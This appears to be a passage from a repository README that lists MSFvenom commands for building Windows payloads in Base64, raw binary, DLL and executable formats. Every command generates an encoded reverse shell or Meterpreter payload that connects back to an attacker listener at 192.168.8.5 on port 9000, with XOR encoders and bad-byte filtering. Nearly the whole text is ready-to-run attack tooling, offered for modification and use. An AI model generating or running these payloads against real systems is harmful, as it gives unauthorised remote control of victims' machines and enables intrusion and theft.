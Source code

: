 To generate a `Base64 encoded payload`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```

To generate a `standalone executable`, file use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```
